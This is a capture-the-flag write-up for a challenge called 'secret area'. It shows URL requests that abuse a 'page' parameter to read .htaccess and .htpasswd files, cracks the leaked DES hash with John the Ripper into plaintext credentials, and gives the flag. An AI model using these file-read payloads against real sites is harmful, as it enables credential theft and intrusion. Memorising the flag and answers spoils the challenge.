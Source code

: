 # secret area

## Description
Peter has made a secure area as part of his website at http://hack.bckdr.in/SECR/index.php?page=challenge.php. It is beleived that the flag is inside that area. See if you can get it.

Created by: Dhaval Kapil
No. of Correct Submissions: 380

## Solution
The content of the provided page contains the following line
```html
The flag for this challenge is in a password protected <a href = "secure/" target = "_blank">area</a>.
```

So we can see that there exist a "secure" directory.
If we try to access the linked site we are prompted with a standard .htaccess username and password protection.
The initial challenge link had an interresting url[http://hack.bckdr.in/SECR/index.php?page=challenge.php]. Maybe the page parameter may be vulnerable to path traversal?
I tried to look for the .htaccess and .htpasswd file (where username and hashed passwords for the .htaccess login is stored.)
```
http://hack.bckdr.in/SECR/index.php?page=.htaccess
Sorry the requested page cannot be shown/found.

http://hack.bckdr.in/SECR/index.php?page=.htpasswd
Sorry the requested page cannot be shown/found.
```
But they were not there.
We know from earlier that there exist a secure/ directory, so we can attempt to look for them inside here aswell.

```
http://hack.bckdr.in/SECR/index.php?page=secure/.htaccess
AuthType Basic AuthName "Secure area" AuthUserFile root/path/to/secure/.htpasswd require valid-user

http://hack.bckdr.in/SECR/index.php?page=secure/.htpasswd
vampire:dS/xVY4wI4PRU
```

Jackpot!

Lets see if we can crack the password with john the ripper.

```
$ touch .htpasswd && echo "vampire:dS/xVY4wI4PRU" > .htpasswd

$ john .htpasswd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
No password hashes left to crack (see FAQ)

$ john --show .htpasswd
vampire:blood

1 password hash cracked, 0 left

```

Let's try to log in with our obtained credentials.

Flag: b7de8530d887ef26c7f1531851877a3bfefab92e91ecdd4154138825449cbbd1
